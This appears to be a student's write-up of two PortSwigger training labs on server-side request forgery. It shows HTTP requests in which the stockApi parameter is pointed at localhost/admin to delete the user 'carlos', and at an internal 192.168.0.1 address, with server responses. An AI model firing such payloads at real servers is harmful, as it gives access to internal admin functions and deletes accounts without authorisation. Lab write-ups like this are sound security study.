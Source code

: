 https://portswigger.net/web-security/ssrf


# 1. Lab: Basic SSRF against the local server
https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost

Goal:
access the admin interface at http://localhost/admin and delete carlos

original query:
```htm
POST /product/stock HTTP/1.1
Host: ac3f1f371fca19aac066a754004e005a.web-security-academy.net
...

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D4%26storeId%3D1
```

payload 1:
stockApi=http://localhost/admin
response:
```htm
<h1>Users</h1>
<div>
    <span>carlos - </span>
    <a href="/admin/delete?username=carlos">Delete</a>
```
payload 2:
stockApi=http://localhost/admin/delete?username=carlos

**deleted**!


# 2. Lab: Basic SSRF against another back-end system
https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system\

to solve the lab:

scan 192.168.0.X range for an admin interface on port 8080, then use it to delete the user carlos. 

request the same vulnarbility as in lab 1:

```htm
POST /product/stock HTTP/1.1
Host: 065406a7304f37e005aca19aacacf11f.web-security-academy.net
...

stockApi=http://192.168.0.1/admin
```

response: 

```htm
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 102

"Invalid external stock check url 'Illegal character in path at index 24: http://192.168.0.1/admin
'"
```

